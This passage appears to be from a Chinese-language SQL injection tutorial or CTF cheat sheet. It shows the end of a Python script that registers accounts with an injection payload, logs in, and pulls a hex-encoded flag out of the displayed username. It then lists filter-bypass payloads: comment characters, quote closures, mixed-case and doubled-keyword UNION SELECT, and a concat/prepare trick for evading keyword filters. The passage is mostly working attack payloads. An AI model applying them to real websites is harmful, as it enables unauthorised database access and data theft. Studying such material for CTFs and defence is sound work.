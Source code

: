 ```python
    email = '{}@qq.com'.format(str(j)+'14')
    html = register(email,payload)
    # print html.text
    html = login(email)
    try:
        res = r.findall(r'<span class="user-name">(.*?)</span>',html.text,r.S)
        hex_flag += str(res[0]).strip()
        print hex_flag
    except:
        pass
    time.sleep(1)
print hex_flag.decode('hex').decode('hex')
```

## 常见绕过

### 注释符绕过

```sql
、#    %23    --+或-- -    ;%00
```

如果所有的注释符全部被过滤了，把我们还可以尝试直接使用引号进行闭合，这种方法很好用。

```sql
'
"
')
")
```

### 字符串变换绕过

**大小写绕过**

```sql
-1' UnIoN SeLeCt 1,2,database()--+
```

**双写绕过**

通常是后台将关键字替换为空的时候利用

```sql
-1' uniunionon selselectect 1,2,database()--+
```

**字符串拼接绕过**

```sql
1';set @a=concat("sel","ect * from users");prepare sql from @a;execute sql;
```

### 过滤and、or绕过

**管道符**
